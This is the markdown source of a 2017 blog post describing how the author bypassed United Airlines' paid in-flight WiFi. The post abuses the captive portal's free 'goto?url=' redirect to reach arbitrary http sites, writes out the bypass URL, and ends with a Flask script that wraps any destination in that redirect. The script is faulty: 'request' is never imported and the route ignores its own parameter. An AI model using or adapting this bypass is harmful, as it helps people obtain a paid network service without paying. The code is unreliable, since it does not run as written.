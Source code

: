 ```yaml
---
layout: post
title: How To Get Free United Airline WiFi
date: 2017-10-20
tags: Docker
archive: false
comments: false
---
```


On my United Airlines flight back from Denver to Boston this past weekened, I took the 4 hour flight to catch up on a few peices of work that I had been procrastinating on. After a few fits and starts of work I got stuck on a problem that I didnt have an answer for.

Remembering that the plane probably had wifi I quickly moved to my network manager to find that there was a wifi signal! Hooray.
A quick look over the system and I found myself on this page:

<img src="/assets/images/unitedwifi.png" class="fit">


A smooth $6.99 for standard internet or $10.99 for _Accelerated_ internet. Now while this was tempting to pay, I decided it was going to be worth it with only 1 hour or so before I was back on the ground. So started looking around what else UnitedWifi offered, maybe a few complimentary videos to help ease the mind.

## Free united.com surfing!

But what stuck out was that you could access www.united.com unlimited and for free.

<img src="/assets/images/unitedexploited.png" class="fit">

So I clicked the hyperlink and was redirected to `united.com`! I though great, time to take a look at how this worked.

The url was: `https://www.unitedwifi.com/portal/l/goto?url=http://www.united.com`


## Free elsewere.com surfing?

Mmmm... Seems pretty straight forward. goto path with a `url=` param set to the destination.

So I tried a few. First up `https://www.google.com` and `https://www.unitedwifi.com/portal/l/goto?url=https://www.google.com` failed! Bummer. But lets try other attack vectors. How about the less secure `http`?


Lets try:
`https://www.unitedwifi.com/portal/l/goto?url=http://www.google.com`
Well at looks *it works*!!!

### Success

<img src="/assets/images/wifisucceskid.jpg" class="fit">


## FREE WIFI SERVER

So then it was just a quick few seconds before I could make 1 request a time to get access to the internet.

```
from urllib import urlencode
from flask import Flask

BASE_URL = "https://www.unitedwifi.com/portal/l/goto"
app = Flask(__name__)


def setup_redirect(dirty_dest):
   return urlencode({'url': dirty_dest})


def goto(dest):
    final_dest = setup_redirect(dest)
    # final_dest = dest
    return BASE_URL + "?{}".format(final_dest)


@app.route('/<token>')
def index(token):
   token = request.args.get('d')
   return goto(token)


if __name__ == '__main__':
   destination = "http://www.google.com"  # MAKS SURE that it is http
   host = "localhost"
   port = "7777"
   app.run(host=host, port=int(port), debug=True, use_reloader=True, use_debugger=True)
```

src: https://github.com/townie/free_united_wifi
